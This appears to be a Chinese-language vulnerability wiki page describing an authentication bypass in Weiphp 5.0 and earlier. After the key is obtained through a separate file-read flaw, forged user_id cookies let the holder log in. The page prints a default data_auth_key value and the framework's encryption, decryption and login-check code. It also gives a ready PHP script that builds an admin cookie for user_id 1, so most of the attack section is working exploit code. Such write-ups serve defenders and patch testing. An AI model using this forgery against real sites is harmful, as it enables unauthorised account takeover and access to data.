 <languages  />

漏洞影響
--------

    Weiphp <= 5.0

漏洞利用
--------

首先需要得到數據庫配置文件中的`data_auth_key`密鑰

![](Weiphp-15.png "Weiphp-15.png")

得到這個配置文件可參考 [CNVD-2020-68596 Weiphp5.0 前台文件任意讀取漏洞](https://www.pwnwiki.org/index.php?title=CNVD-2020-68596_Weiphp5.0_%E5%89%8D%E5%8F%B0%E6%96%87%E4%BB%B6%E4%BB%BB%E6%84%8F%E8%AE%80%E5%8F%96%E6%BC%8F%E6%B4%9E)

    'data_auth_key' => '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T'

全局查找使用了這個密鑰的地方:

![](Weiphp-16.png "Weiphp-16.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
找到了跟據這個密鑰的加密方法和解密方法

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
加密方法 `think_encrypt`

</div>

    function think_encrypt($data, $key = '', $expire = 0)
    {
        $key = md5(empty($key) ? config('database.data_auth_key') : $key);

        $data = base64_encode($data);
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        $str = sprintf('%010d', $expire ? $expire + time() : 0);

        for ($i = 0; $i < $len; $i++) {
            $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
        }
        return str_replace(array(
            '+',
            '/',
            '='
        ), array(
            '-',
            '_',
            ''
        ), base64_encode($str));
    }

<div lang="chinese" dir="ltr" class="mw-content-ltr">
解密方法 `think_decrypt`

</div>
    function think_decrypt($data, $key = '')
    {
        $key = md5(empty($key) ? config('database.data_auth_key') : $key);
        $data = str_replace(array(
            '-',
            '_'
        ), array(
            '+',
            '/'
        ), $data);
        $mod4 = strlen($data) % 4;
        if ($mod4) {
            $data .= substr('====', $mod4);
        }
        $data = base64_decode($data);
        $expire = substr($data, 0, 10);
        $data = substr($data, 10);

        if ($expire > 0 && $expire < time()) {
            return '';
        }
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = $str = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        for ($i = 0; $i < $len; $i++) {
            if (ord(substr($data, $i, 1)) < ord(substr($char, $i, 1))) {
                $str .= chr((ord(substr($data, $i, 1)) + 256) - ord(substr($char, $i, 1)));
            } else {
                $str .= chr(ord(substr($data, $i, 1)) - ord(substr($char, $i, 1)));
            }
        }
        return base64_decode($str);
    }

<div lang="chinese" dir="ltr" class="mw-content-ltr">
在文件 `application\common.php` 中含有使用解密方法的代碼，用於做身份驗證

</div>
    function is_login()
    {
        $user = session('user_auth');
        if (empty($user)) {
            $cookie_uid = cookie('user_id');
            if (!empty($cookie_uid)) {
                $uid = think_decrypt($cookie_uid);
                $userinfo = getUserInfo($uid);
                D('common/User')->autoLogin($userinfo);

                $user = session('user_auth');
            }
        }
        if (empty($user)) {
            return 0;
        } else {
            return session('user_auth_sign') == data_auth_sign($user) ? $user['uid'] : 0;
        }
    }

<div lang="chinese" dir="ltr" class="mw-content-ltr">
根據這裡得到的代碼，可以知道當user_Id=1時,會解密密鑰後判斷是否正確，如果正確則可以登錄系統

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
我們在本地使用加密代碼加密user_id=1得到的cookie則可以登錄系統

</div>
    <?php
    show_source(__FILE__);
    function think_encrypt($data, $key = '', $expire = 0)
    {
        $key = '+0SeoAC#YR,Jm&c?[PhUg9u;:Drd8Fj4q|XOkx*T';
        $key = md5($key);

        $data = base64_encode($data);
        $x = 0;
        $len = strlen($data);
        $l = strlen($key);
        $char = '';

        for ($i = 0; $i < $len; $i++) {
            if ($x == $l) {
                $x = 0;
            }

            $char .= substr($key, $x, 1);
            $x++;
        }

        $str = sprintf('%010d', $expire ? $expire + time() : 0);

        for ($i = 0; $i < $len; $i++) {
            $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
        }
        return str_replace(array(
            '+',
            '/',
            '='
        ), array(
            '-',
            '_',
            ''
        ), base64_encode($str));
    }

    echo 'user_id = ' . think_encrypt($_GET['user_id']);
    ?>

<div lang="chinese" dir="ltr" class="mw-content-ltr">
添加`cookie: user_id=xxxxxxxx`即可成功登錄

</div>
![](Weiphp-18.png "Weiphp-18.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7Cookie%E4%BC%AA%E9%80%A0%20CNVD-2021-09693.html>